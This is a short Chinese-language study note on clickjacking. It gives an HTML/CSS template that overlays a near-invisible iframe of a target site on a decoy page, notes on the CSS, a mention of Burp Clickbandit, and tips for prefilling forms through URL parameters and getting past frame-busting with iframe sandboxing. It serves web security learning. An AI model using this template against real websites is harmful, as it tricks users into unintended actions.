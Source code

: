 





### Clickjacking 点击劫持 

通过iframe标签，在自己的恶意网站上挂载正规网站，并将正规网站透明度设为0，诱导用户点击

模版：

```html
<head>
    <style>
        #target_website {
            position:relative;
            width:128px;
            height:128px;
            opacity:0.00001;
            z-index:2;
            }
        #decoy_website {
            position:absolute;
            width:300px;
            height:400px;
            z-index:1;
            }
    </style>
</head>
...
<body>
    <div id="decoy_website">
    ...decoy web content here...
    </div>
    <iframe id="target_website" src="https://vulnerable-website.com">
    </iframe>
</body>
```

CSS解释：

1. 第一个position为relative（原点坐标在它所本该出现的位置），第二个position的absolute（如果父节点存在position:relative，则将以它的原点坐标作为自己的，否则以文档的根结点的原点坐标作为自己的），在这里，两个元素均是按根节点的坐标来作为原点的。（两个absolute就行，，，）

2. width和height都必须得用像素点的形式，只能手动调节，不要百分比，缩放位置会改变
3. opacity是调节透明度，够小就行
4. z-idnex页面的排布前后顺序

工具：Burp->Burp Clickbandit 复制好后，打开浏览器的js控制台，粘贴运行  🐮

**攻击方法：**

1. 对于需要填充信息的场景，网站可能会用url的get参数中含有的对应字段的值进行填充，我们可以利用这一点，修改url，然后再发起点击劫持。

2. 某些网站可能会使用Frame busting scrip 脚本来检测是否用该网站处于iframe，可以把通过iframe沙箱的方式来执行, sanbox里的参数表示执行某种操作，这里只允许执行表单的操作，不允许执行js脚本。
